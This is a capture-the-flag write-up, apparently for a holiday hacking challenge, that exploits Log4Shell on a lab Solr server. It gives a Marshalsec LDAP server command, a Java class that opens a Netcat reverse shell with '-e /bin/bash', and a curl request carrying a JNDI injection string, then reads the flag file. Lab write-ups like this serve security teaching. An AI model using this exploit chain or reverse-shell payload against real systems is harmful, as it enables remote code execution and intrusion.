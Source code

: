 ### <a name="bonusred"></a>Bonus! Red Log4Jack
(Write-up shamelessly inspired from <a href="https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4">Josh Wright</a>

With the terminal provided by Icky McGoop, we get to apply what we learned on the log4j vulnerabilities.
The server at <a href="http://solrpower.kringlecastle.com:8983">http://solrpower.kringlecastle.com:8983</a> is running a Solr version potentially vulnerable with the Lo4j vulnerabilities.
```
curl http://solrpower.kringlecastle.com:8983/solr/
```
To exploit the vulnerable server, we have to leverage the Marshelsec Java deserialization LDAP server. The vulnerable server needs to reach the malicious LDAP server as part of the Log4shell attach path.
```
cd marshalsec
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.2:8080/#Yule"
```
Next, we need to create the exploit in Java to run a command on the vulnerable server and connect back to the attacker system.
```
cd web

nano Yule.java
# Yule.java
public class Yule {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc 172.17.0.2 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```
This Java program will run the Netcat command and send a shell to the specified IP address.
Next, we deliver the Log4shell exploit to gain remote access to Santa's Solr server by making a cURL request, as shown here.
```
javac Yule.java
curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://172.17.0.2:1389/Yule\}'
{
  "responseHeader":{
    "status":0,
    "QTime":293},
  "initFailures":{},
  "status":{}}
```
We can see a status update in the terminal window for the Marshalsec LDAP server, the web server, and the Netcat shell listener. We can retrieve the required file from the Netcat shell listener terminal
```
cat /home/solr/kringle.txt
```
We now have the answer ```patching```, that we can issue by running the command:
```
runtoanswer patching
```
